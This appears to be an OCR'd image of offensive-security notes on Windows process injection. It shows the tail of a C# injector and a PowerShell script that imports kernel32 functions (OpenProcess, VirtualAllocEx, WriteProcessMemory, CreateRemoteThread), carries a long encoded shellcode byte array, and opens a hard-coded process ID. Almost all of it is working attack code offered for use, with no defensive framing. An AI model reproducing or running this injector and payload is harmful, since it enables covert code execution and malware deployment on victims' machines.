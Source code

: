 ```c#
 ....
 0x0a,0x41,0x89,0xda,0xff,0xd5 };
 IntPtr outSize;
 WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
 IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr,
IntPtr.Zero, 0, IntPtr.Zero);
 }
 }
}

```

combining both - we can look at ps1 gallery for reference.

```powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;
public class Kernel32 {
  [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
 public static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int
processId);
 [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
 public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint
dwSize, uint flAllocationType, uint flProtect);
 [DllImport("kernel32.dll")]
 public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
 [DllImport("kernel32.dll")]
 public static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr
lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint
dwCreationFlags, IntPtr lpThreadId);
}
"@

Add-Type $Kernel32
[Byte[]]$buf =
0x48,0x31,0xc9,0x48,0x81,0xe9,0xdd,0xff,0xff,0xff,0x48,0x8d,0x05,0xef,0xff,
0xff,0xff,0x48,0xbb,0xb6,0x91,0x18,0x2b,0x1c,0x05,0x92,0x1b,0x48,0x31,0x58,
0x27,0x48,0x2d,0xf8,0xff,0xff,0xff,0xe2,0xf4,0x4a,0xd9,0x9b,0xcf,0xec,0xed,
0x52,0x1b,0xb6,0x91,0x59,0x7a,0x5d,0x55,0xc0,0x4a,0xe0,0xd9,0x29,0xf9,0x79,
0x4d,0x19,0x49,0xd6,0xd9,0x93,0x79,0x04,0x4d,0x19,0x49,0x96,0xd9,0x93,0x59,
0x4c,0x4d,0x9d,0xac,0xfc,0xdb,0x55,0x1a,0xd5,0x4d,0xa3,0xdb,0x1a,0xad,0x79,
0x57,0x1e,0x29,0xb2,0x5a,0x77,0x58,0x15,0x6a,0x1d,0xc4,0x70,0xf6,0xe4,0xd0,
0x49,0x63,0x97,0x57,0xb2,0x90,0xf4,0xad,0x50,0x2a,0xcc,0x8e,0x12,0x93,0xb6,
0x91,0x18,0x63,0x99,0xc5,0xe6,0x7c,0xfe,0x90,0xc8,0x7b,0x97,0x4d,0x8a,0x5f,
0x3d,0xd1,0x38,0x62,0x1d,0xd5,0x71,0x4d,0xfe,0x6e,0xd1,0x6a,0x97,0x31,0x1a,
0x53,0xb7,0x47,0x55,0x1a,0xd5,0x4d,0xa3,0xdb,0x1a,0xd0,0xd9,0xe2,0x11,0x44,
0x93,0xda,0x8e,0x71,0x6d,0xda,0x50,0x06,0xde,0x3f,0xbe,0xd4,0x21,0xfa,0x69,
0xdd,0xca,0x5f,0x3d,0xd1,0x3c,0x62,0x1d,0xd5,0xf4,0x5a,0x3d,0x9d,0x50,0x6f,
0x97,0x45,0x8e,0x52,0xb7,0x41,0x59,0xa0,0x18,0x8d,0xda,0x1a,0x66,0xd0,0x40,
0x6a,0x44,0x5b,0xcb,0x41,0xf7,0xc9,0x59,0x72,0x5d,0x5f,0xda,0x98,0x5a,0xb1,
0x59,0x79,0xe3,0xe5,0xca,0x5a,0xef,0xcb,0x50,0xa0,0x0e,0xec,0xc5,0xe4,0x49,
0x6e,0x45,0x63,0xa6,0x04,0x92,0x1b,0xb6,0x91,0x18,0x2b,0x1c,0x4d,0x1f,0x96,
0xb7,0x90,0x18,0x2b,0x5d,0xbf,0xa3,0x90,0xd9,0x16,0xe7,0xfe,0xa7,0xf5,0x27,
0xb9,0xe0,0xd0,0xa2,0x8d,0x89,0xb8,0x0f,0xe4,0x63,0xd9,0x9b,0xef,0x34,0x39,
0x94,0x67,0xbc,0x11,0xe3,0xcb,0x69,0x00,0x29,0x5c,0xa5,0xe3,0x77,0x41,0x1c,
0x5c,0xd3,0x92,0x6c,0x6e,0xcd,0x48,0x7d,0x69,0xf1,0x35,0xd3,0xe9,0x7d,0x2b,
0x1c,0x05,0x92,0x1b 

$hProcess =[Kernel32]::OpenProcess(0x001F0FFF, 0, 17692);
Write-Output $hProcess
Write-Output $buf.Length 

```
